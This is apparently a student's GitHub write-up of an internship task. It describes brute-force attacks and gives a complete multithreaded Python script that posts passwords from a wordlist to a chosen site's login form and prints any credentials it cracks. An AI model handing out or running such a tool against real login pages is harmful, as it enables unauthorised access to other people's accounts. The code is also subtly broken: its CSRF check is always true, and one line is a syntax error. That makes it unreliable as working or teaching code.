


<p align="center">

# TASK 2 : CREATE A BASIC TOOL FOR THE BRUTE FORCING USERNAMES AND PASSWORDS IN PYTHON  <hr>
# SUBMITTED BY SUPRAJA S

</p>
<p align="center">

</p>

# BRUTE FORCE PROCESS 
<p>
 Brute forcing is relying on or achieved through the application of force, effort, or power in usually large amounts instead of more efficient, carefully planned, or precisely directed methods.
</p>

# FEATURES OF BRUTE FORCING 

User Input: The script takes input from the user for the target URL, target username, and the error message displayed when an incorrect password is entered.

BruteForce Cracker Class: It encapsulates the functionality related to the brute-force attack. The crack method attempts to log in with a given password and checks the response for an error message.

crack_passwords Function: It iterates through a list of passwords, attempting to crack the password using the BruteForceCracker instance. Multithreading is used to speed up the process.

Main Function: It initializes the brute-force cracker, reads passwords from a file ("passwords.txt"), and starts multiple threads to perform the password cracking concurrently.

Banner: The script displays a "CHECKING SERVER!!!" banner when executed.

Threading: The script uses the threading module to perform password cracking concurrently, improving efficiency.

Error Handling: The script checks for CSRF tokens in the response and exits if detected, preventing the brute force attack if the target website employs CSRF protection.

Printing: Various print statements are used for displaying information about th e cracking process, including the target URL, username, password attempts, and successful password discovery

# ADVANTAGES OF BRUTE FORCING 

The following are the advantages of the brute-force algorithm:

-This algorithm finds all the possible solutions, and it also guarantees that it finds the correct solution to a problem.

-This type of algorithm is applicable to a wide range of domains.

-It is mainly used for solving simpler and small problems.

-It can be considered a comparison benchmark to solve a simple problem and does not require any particular domain knowledge.

# DISADVANTAGES OF BRUTE FORCING

The following are the disadvantages of the brute-force algorithm:

-It is an inefficient algorithm as it requires solving each and every state.

-It is a very slow algorithm to find the correct solution as it solves each state without considering whether the solution is feasible or 
  not.
  
-The brute force algorithm is neither constructive nor creative as compared to other algorithms.

<p align="center">

</p>

# PYTHON CODE :
```print (""" BRUTE FORCE""")
import threading
import requests
import time
import sys

class BruteForceCracker:
    def __init__(self, url, username, error_message):
        self.url = url
        self.username = username
        self.error_message = error_message
        
        for run in banner:
            sys.stdout.write(run)
            sys.stdout.flush()
            time.sleep(0.02)

    def crack(self, password):
        data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
        response = requests.post(self.url, data=data_dict)
        if self.error_message in str(response.content):
            return False
        elif "CSRF" or "csrf" in str(response.content):
            print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
            sys.exit()
        else:
            print("Username: ---> " + self.username)
            print("Password: ---> " + password)
            return True

def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return

def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForceCracker(url, username, error)
    
    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()

if __name__ == '__main__':
    banner = """CHECKING SERVER!!!"""  print(banner)
    main()
```


